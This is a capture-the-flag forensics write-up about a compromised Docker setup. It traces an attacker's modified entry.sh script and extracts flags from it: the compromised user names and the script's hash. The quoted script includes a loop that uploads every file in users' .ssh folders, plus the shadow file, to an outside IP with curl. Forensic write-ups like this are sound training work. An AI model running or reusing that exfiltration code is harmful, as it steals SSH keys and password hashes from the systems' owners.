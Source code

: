 ```bash
                                INSERT INTO customer_info VALUES ("Frank", "Ferter", "F@A.com", "3566002020360505", "badpass5");\
                                INSERT INTO customer_info VALUES ("Orange", "Chair", "O@A.com", "4012888888881881", "badpass6");\
                                INSERT INTO customer_info VALUES ("Face", "Book", "C@A.com", "5105105105105100", "badpass7");\'

find /tmp/home -type d -name ".ssh" 2> /dev/null > /tmp/ljkasdhg
find /tmp/root -type d -name ".ssh" 2> /dev/null >> /tmp/ljkasdhg

sleep 2m;

while read line; do
    find $line -type f -exec curl -k -F 'data=@{}' https://10.91.9.93/ \;
done < /tmp/ljkasdhg

curl -k -F 'data=@/tmp/etc/shadow' https://10.91.9.93/

service apache2 stop;
apache2 -D FOREGROUND;
```


![](https://media.giphy.com/media/K90ckojkohXfW/giphy.gif)


It's Christmas, we found the file modified by the attacker and what allowed him to do yolo with the system. He modified database entries, retrieved `/etc/shadow`, information about users' `.ssh` folders.

The compromised users are therefore:

> Flag 1: Billy,Face,Frank,John,Meserole,Orange,Suzy

The file that was used to extract data from the data is therefore `entry.sh`:

> Flag 2: 14b0d800ce6f2882a6f058b45fc500c8

Still in the same perspective as to find the `entry.sh`, I listed the diff folders. In fact, I thought we were looking for a SQL backup or something like that, modifying a database without getting the backups is like ransomware that doesn't delete clear files...

```bash
➜  microservices ls aaa/var/lib/docker/overlay2/*/diff/
[...]
aaa/var/lib/docker/overlay2/e714d5d9a9c2b274dc598376078e089556081865d541bfa9aef768b1982ba0b3/diff/:
data-dump.sql  run  tmp
[...]

➜  microservices cat aaa/var/lib/docker/overlay2/e714d5d9a9c2b274dc598376078e089556081865d541bfa9aef768b1982ba0b3/diff/data-dump.sql
[BAD IDEA TOO MUCH DATA]

➜  microservices md5sum aaa/var/lib/docker/overlay2/e714d5d9a9c2b274dc598376078e089556081865d541bfa9aef768b1982ba0b3/diff/data-dump.sql
6d47d74d66e96c9bce2720c8a56f2558  aaa/var/lib/docker/overlay2/e714d5d9a9c2b274dc598376078e089556081865d541bfa9aef768b1982ba0b3/diff/data-dump.sql
```
